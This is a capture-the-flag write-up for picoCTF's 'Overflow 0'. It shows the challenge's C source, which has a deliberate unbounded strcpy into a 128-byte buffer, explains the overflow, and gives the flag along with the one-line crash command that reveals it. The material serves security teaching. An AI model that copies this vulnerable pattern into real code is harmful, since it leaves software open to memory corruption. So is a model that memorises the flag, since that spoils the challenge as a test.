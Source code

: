 
# Binary Exploitation - Overflow 0 (100 points)

## Challenge

*This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa on the shell server. Source.*

![Challenge](../_images/binary_exploitation_overflow_0_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

## Flag

picoCTF{3asY_P3a5yd2b59a57}

## Walkthrough

The function void `vuln(char *input)` is vulnerable to a buffer overflow because *input* size is not controlled when strcopied in buf (which has a size of 128 bytes).

```C
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}
```

If a segmentation fault occurs, corresponding signal will be catch resulting in the display of the flag:

```C
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

So all we have to do is to perform a big and dirty buffer overflow resulting in a seg fault to display the flag:

```bash
m3oow@pico-2019-shell1:/problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa$ python -c "print('A' * 140)" | xargs ./vuln
picoCTF{3asY_P3a5yd2b59a57}
```